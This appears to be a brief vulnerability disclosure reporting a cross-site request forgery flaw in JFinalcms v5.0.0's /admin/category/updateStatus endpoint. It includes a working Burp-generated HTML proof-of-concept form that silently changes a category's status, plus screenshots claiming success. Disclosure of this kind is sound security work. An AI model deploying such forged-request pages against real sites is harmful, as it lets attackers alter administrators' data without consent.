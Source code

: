 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/updateStatus


![图片](https://github.com/nightcloudos/new_cms/assets/76925342/fdae78eb-8179-45d9-b853-10cea5be592b)


create poc：

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/f7e406c7-17be-4955-8953-be7f8dbf4b5d)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/category/updateStatus" method="POST">
      <input type="hidden" name="id" value="110" />
      <input type="hidden" name="value" value="false" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/b7ec8f4f-b700-47bb-9af7-1b884f56cf5e)

